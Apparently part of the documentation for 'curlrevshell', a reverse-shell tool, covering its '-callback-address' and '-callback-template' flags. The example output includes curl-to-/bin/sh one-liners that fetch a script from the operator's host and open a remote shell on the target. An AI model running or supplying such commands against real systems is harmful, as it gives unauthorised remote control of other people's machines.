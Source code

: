 Flags
=====
Command-line flags control curlrevshell's behavior.  Running with [`-h`](#-h)
gives you a short list.  Below is a bit more info.  A bit.

`-h`
----
Quick reference, if you already know what to look for.

`-callback-address`
-------------------
Adds one or more addresses to the list of one-liners printed on startup.
Port's optional.

Handy when you've got network tunnels set up and there's no good way for
curlrevshell to figure out what its own address is.  Also handy for sticking a
domain in there.

### Example
Add `kittens.com` and `100.64.10.10:1234` to the list of one-liners.
```
$ curlrevshell -callback-address kittens.com -callback-address 100.64.10.10:1234
17:07:36.936 Listening on 0.0.0.0:4444
17:07:36.936 To get a shell:

curl -sk --pinnedpubkey 'sha256//9nkpEPFYzXMxoVTGImPROp+qkk+B1QQIut2jX4qohgY=' 'https://kittens.com:4444/c' | /bin/sh
curl -sk --pinnedpubkey 'sha256//9nkpEPFYzXMxoVTGImPROp+qkk+B1QQIut2jX4qohgY=' 'https://100.64.10.10:1234/c' | /bin/sh
curl -sk --pinnedpubkey 'sha256//9nkpEPFYzXMxoVTGImPROp+qkk+B1QQIut2jX4qohgY=' 'https://192.168.1.10:4444/c' | /bin/sh
```

`-callback-template`
--------------------
Specifies a different template for the script generated by queries to `/c`.  The
default is in [`internal/hserv/script.tmpl`](../internal/hsrv/script.tmpl) and
can be printed with `-print-default-template`.
Like with `-ctrl-i`, everything is re-read every time it's needed,
so no need to restart curlrevshell if you change it.

Handy for giving curl options or using something totally different on target.

### Example
Serve up a custom template named `./sneaky.tmpl`.
```
# Get the default template
curlrevshell -print-default-template > sneaky.tmpl
# Modify it
vim ./sneaky.tmpl
# Serve it up with /c
curlrevshell -callback-template ./sneaky.tmpl
```
